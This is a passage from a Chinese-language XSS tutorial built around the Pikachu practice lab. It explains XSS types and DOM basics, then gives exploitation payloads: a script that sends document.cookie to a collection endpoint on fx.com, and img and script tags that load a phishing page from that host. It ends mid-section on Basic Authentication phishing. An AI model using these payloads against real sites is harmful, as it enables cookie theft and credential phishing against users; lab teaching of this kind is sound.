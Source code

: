

**最大的区别就是xss代码是否存储在服务器中。**



它是通过对网页注入可执行代码且成功地被浏览器执行，达到攻击的目的，一般是注入一段javascript脚本。在测试过程中，我们一般是使用：

```
<script>alert(1)</script>
```

通过这段js代码，弹个框来证明存在xss漏洞。那么，可能新手就会问了，弹个框有什么用呢？

其实，弹框只是为了证明存在此漏洞。而此漏洞的利用方式由很多种。



### Dom型XSS演示

![HTML DOM Node Tree](https://www.w3school.com.cn/i/ct_htmltree.gif)

通过Javascript，可以重构整个HTML文档，你可以添加、移除、改变或重排页面上的项目

要改变页面的某个东西，JavaScript就需要获得对HTML文档中所有元素进行访问的入口，这个入口，连同对HTML元素进行添加、移动、改变或者移除的方法和属性，都是通过文档对象模型来获得的（DOM）

所以，你可以把DOM理解为一个一个访问HTML的标准编程接口





### XSS如何利用

#### 获取COOKIE

我们使用pikachu写的pkxss后台

使用方法：

<script>document.location='http://fx.com/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>



`<img src="http://fx.com/pikachu/pkxss/xfish/xfish.php" />`

`<script src="http://fx.com/pikachu/pkxss/xfish/xfish.php"></script>`



#### XSS钓鱼攻击

**HTTP Basic Authentication认证**

> 大家在登录网站的时候，大部分时候是通过一个表单提交登录信息。
>
> 但是有时候浏览器会弹出一个登录验证的对话框，如下图，这就是使用HTTP基本认证。

在你访问一个需要HTTP Basic Authentication的URL的时候，如果你没有提供用户名和密码，服务器就会返回401，如果你直接在浏览器中打开，浏览器会提示你输入用户名和密码，也就是上面的图示。

要在发送请求的时候添加HTTP Basic Authentication认证信息到请求中，有两种方法：  
